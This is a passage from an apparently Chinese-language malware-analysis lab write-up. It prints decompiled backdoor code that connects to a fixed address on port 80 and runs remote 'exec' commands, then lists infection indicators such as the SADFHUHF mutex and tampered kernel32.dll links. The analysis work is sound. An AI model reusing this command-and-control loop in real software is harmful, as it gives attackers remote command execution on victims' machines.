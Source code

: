 ```c
v3 = socket(2, 1, 6);
if ( v3 != -1 )
{
    name.sa_family = 2;
    *(_DWORD *)&name.sa_data[2] = inet_addr(cp);
    *(_WORD *)&name.sa_data[0] = htons(0x50u);
    if ( connect(v3, &name, 16) != -1 )
    {
        while ( send(v3, ::buf, strlen(::buf), 0) != -1 && shutdown(v3, 1) != -1 )
        {
            if ( recv(v3, &buf, 4096, 0) > 0 )
            {
                if ( !strncmp(Str1, &buf, 5u) )
                {
                    Sleep(0x60000u);
                }
                else if ( !strncmp(aExec, &buf, 4u) )
                {
                    memset(&StartupInfo, 0, sizeof(StartupInfo));
                    StartupInfo.cb = 68;
                    CreateProcessA(0, &CommandLine, 0, 0, 1, 0x8000000u, 0, 0, &StartupInfo, &ProcessInformation);
                }
                else
                {
                    if ( buf == 113 )
                    {
                        CloseHandle(hObject);
                        break;
                    }
                    Sleep(0x60000u);
                }
            }
        }
    }
}
closesocket(v3);
```

分析其逻辑，应用程序创建了一个套接字，主动连接到了 `cp = 127.26.152.13` 的 `0x50 = 80` 端口，并且接受三种字符串的传入内容：

1. `Str1 = sleep`，应用程序会睡眠 `0x60000 ms = 393216 ms = 6.5 min`；
2. `aExec = exec`，应用程序会创建一个供远程执行的 `shell`，执行任意代码；
3. `chr(113) = q`，应用程序会结束。

综上所述，恶意代码感染的主机特征主要是以下两点：

1. 创建了互斥量，其名称为 `SADFHUHF`；
2. 改变了 C 盘中所有可执行文件的 `kernel32.dll` 动态链接库连接位置。

## QUESTION 3
